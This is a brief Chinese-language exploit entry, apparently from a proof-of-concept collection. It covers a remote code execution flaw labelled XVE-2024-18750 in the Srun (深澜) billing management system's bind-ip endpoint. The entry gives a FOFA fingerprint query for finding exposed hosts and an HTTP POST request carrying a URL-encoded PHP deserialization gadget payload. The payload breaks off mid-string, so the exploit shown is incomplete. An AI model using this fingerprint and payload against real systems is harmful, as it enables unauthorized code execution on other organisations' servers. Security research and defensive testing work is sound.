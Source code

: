 # 深澜计费管理系统bind-ip远程代码执行漏洞(XVE-2024-18750)



## fofa

```yaml
"/js/lib/slimscroll.js"
```

## poc

```python
POST /strategy/ip/bind-ip HTTP/2
Host:
Content-Type: application/x-www-form-urlencoded

data1=O%3A33%3A%22setasign%5CFpdi%5CPdfReader%5CPdfReader%22%3A1%3A%7Bs%3A9%3A%22%00%2A%00parser%22%3BO%3A20%3A%22yii%5Credis%5CConnection%22%3A12%3A%7B
```

